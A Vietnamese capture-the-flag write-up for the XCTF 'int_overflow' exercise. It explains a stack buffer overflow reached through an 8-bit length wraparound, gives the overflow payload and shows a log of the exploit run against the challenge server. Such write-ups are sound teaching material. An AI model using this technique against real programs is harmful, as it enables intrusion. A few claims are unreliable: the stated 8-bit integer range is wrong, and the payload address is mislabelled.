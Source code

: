 # XCTF - PWN Exercise - int_overflow

```c
#include<stdio.h>

int what_is_this()
{
  return system("cat flag");
}

char *__cdecl check_passwd(char *s)
{
  char dest[11]; // [esp+4h] [ebp-14h] BYREF
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Invalid Password");
    return (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    return strcpy(dest, s);
  }
}

int login()
{
  char buf[512]; // [esp+0h] [ebp-228h] BYREF
  char s[40]; // [esp+200h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  memset(buf, 0, sizeof(buf));
  puts("Please input your username:");
  read(0, s, 0x19u);
  printf("Hello %s\n", s);
  puts("Please input your passwd:");
  read(0, buf, 0x199u);
  return check_passwd(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+Ch] [ebp-Ch] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  puts("---------------------");
  puts("~~ Welcome to CTF! ~~");
  puts("       1.Login       ");
  puts("       2.Exit        ");
  puts("---------------------");
  printf("Your choice:");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    login();
  }
  else
  {
    if ( v4 == 2 )
    {
      puts("Bye~");
      exit(0);
    }
    puts("Invalid Choice!");
  }
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow λ checksec int_overflow
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow/int_overflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Xem qua tất cả các hàm chúng ta thấy có hàm `what_is_this()` thực thi đọc flag mà không có hàm nào gọi đến nó cả nên mục tiêu là ghi đè địa chỉ trả về của một hàm nào đó bằng địa chỉ của hàm `what_is_this()` (vì không có `Canary` nên ý tưởng ban đầu cơ bản là như vậy). Hàm `login()` cơ bản là nhập vào username và passwd sau đó passwd là đối số cho hàm `check_passwd(buf)`. Vấn đề nằm ở đây, vì vị trí của `username` và `passwd` trên stack được cấp phát khá lớn nên không thể cố nhập tràn rồi ghi đề return address nhưng ở hàm `check_passwd(buf)`, v3 là độ dài của `passwd` và nếu v3 thỏa mãn `v3 <= 3u || v3 > 8u` thì chuỗi `passwd` sẽ được coppy sang biến `dest[11]` nằm ở [ebp-14h] => có thể stack buffer overflow rồi ghi đè return address của hàm `check_passwd(buf)` do độ dài của buf[512] chính là `passwd`.

Bây giờ ta có payload = "A" * 0x18 + p32(0x804868b) - `0x804868b là địa chỉ của check_passwd(buf)` có độ dài là 28 > 8. Như vậy là không thỏa mãn check_passwd.

Bài này xuất hiện lỗ hổng `int overflow` hay là tràn số nguyên.

Biến v3 khai báo `unsigned __int8` nghĩa là có độ dài 8 bits. Các loại biến số nguyên khác nhau thì có phạm vi giá trị khác nhau, nếu giá trị chúng ta nhập vào nằm trong phạm vi hợp lý thì không sao, nhưng nếu giá trị nhập vào vượt quá phạm vi giá trị thì sẽ xảy ra hiện tượng tràn số nguyên. Máy tính sẽ đọc giá trị mặc định là phần sau của giá trị đầu vào. 

Ví dụ: giá trị của 8 bit int là `-255 ~ 255`. Nếu đầu vào 256, 255 tương ứng với nhị phân `1111 1111` và 256 tương ứng với nhị phân `1 0000 0000`. Khi máy tính gặp 256, nó sẽ mặc định ở phần sau, `0000 0000` vì vậy 256 sẽ được công nhận giống 0 và cứ như vậy 257 là 1, 258 là 2,...

Vậy như bài trên ta thấy giá trị `v3` thỏa mãn là `3 < v3 <= 8` tương ứng với `259 = 256 + 3 < v3 <= 256 + 8 = 264` (ở đây 256 được máy tính hiểu là số 0 do tràn số nguyên). 

Ta chọn v3 = 260, khi đó payload sẽ là `payload = "A" * 0x18 + p32(0x804868b) + "A" * 232`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 56460: Done
[+] Receiving all data: Done (53B)
[*] Closed connection to 111.200.241.244 port 56460
Success
cyberpeace{1677f09f699e94d2b65653d19ab2ddb5}

[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$  
```

